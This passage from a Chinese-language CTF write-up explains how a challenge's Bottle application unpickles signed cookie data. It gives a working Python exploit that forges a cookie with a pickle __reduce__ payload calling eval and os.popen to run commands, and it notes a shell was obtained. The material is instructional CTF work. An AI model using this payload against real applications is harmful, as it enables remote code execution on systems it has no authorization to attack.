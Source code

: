 key可以通过任意文件读取读到

/appppp/config/D0g3_GC.py

![image-20241226141149265](../assets/image-20241226141149265.png)

通过代码我们可以发现，哪怕我们构造出admin进入到/admin路由那我们其实也不能得到什么

事实上这是一道pickle反序列化的题目

![image-20241227140511395](../assets/image-20241227140511395.png)

![image-20241227140534142](../assets/image-20241227140534142.png)

我们如果跟进get_cookie方法(/admin和/hello都有)我们可以发现

![image-20241221223707318](../assets/image-20241221223707318.png)

在这个get_cookie方法里面会对cookie中的数据进行pickle反序列化

也就是说我们可以通过他就可以进行任何命令的执行

exp

```python
from bottle import route, run,response
import os


Mountain = "123"

class exp(object):
    def __reduce__(self):
        return (eval, ("__import__('os').popen('calc').read()",))


@route("/")
def index():
        session = exp()
        response.set_cookie("name", session, secret=Mountain)
        return "success"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="127.0.0.1", port=8081)
```

弹shell拿flag

![image-20241227140022898](../assets/image-20241227140022898.png)

#### 图片查看器

> 考点：1.信息收集 2.filterchain读文件 3.phar反序列化 4.提权
